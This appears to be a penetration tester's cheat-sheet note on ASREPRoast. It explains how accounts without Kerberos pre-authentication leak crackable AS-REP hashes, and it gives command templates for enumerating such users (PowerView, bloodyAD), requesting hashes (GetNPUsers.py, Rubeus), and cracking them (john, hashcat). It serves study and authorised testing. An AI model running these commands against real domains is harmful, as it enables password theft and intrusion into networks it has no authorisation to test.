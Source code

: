 # Overview
ASREPRoast is a security attack that exploits users who lack the **[[88 - Kerberos]] pre-authentication required attribute**. Essentially, this vulnerability allows attackers to request authentication for a user from the Domain Controller (DC) without needing the user's password. The DC then responds with a message encrypted with the user's password-derived key, which attackers can attempt to crack offline to discover the user's password.

## Prerequisites
- No Kerberos pre-authentication
- Ability to connect to the DC
- *Optional*: Having a domain account. This allows the attacker to identify users through LDAP. Without this account, the attacker has to guess the usernames.

## Tools
- [Rubeus Release](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.5_x64/Rubeus.exe)
- [Impacket - GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)
- [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- [bloodyAD](https://github.com/CravateRouge/bloodyAD)


# Enumeration
Here we enumerate vulnerable users.
**Windows**
```powershell
# PowerView
Get-DomainUser -PreauthNotRequired -verbose
```

**Linux**
```bash
bloodyAD -u <USER> -p 'PASSWORD' -d <DOMAIN> --host <IP> get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName
```

# Request AS_REP message (Exploit)
**Linux**
```bash
# Try all the usernames the file provided
python GetNPUsers.py <DOMAIN>/ -usersfile <USER_FILE> -format hashcat -outputfile <HASHES_OUT>
# Use domain creds to extract targets and target them
python GetNPUsers.py <DOMAIN>/USER:PASSWORD -request -format hashcat -outputfile <HASHES_OUT>
```

**Windows**
```powershell
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]
Get-ASREPHash -Username USER -verbose
```


# Cracking Hashes
```bash
john --wordlist=<CLEAR_PASS> <HASHES_OUT>
hashcat -m 18200 --force -a 0 <HASHES_OUT> <CLEAR_PASS>
```


# References
- [https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/asreproast.html](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/asreproast.html)
- [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)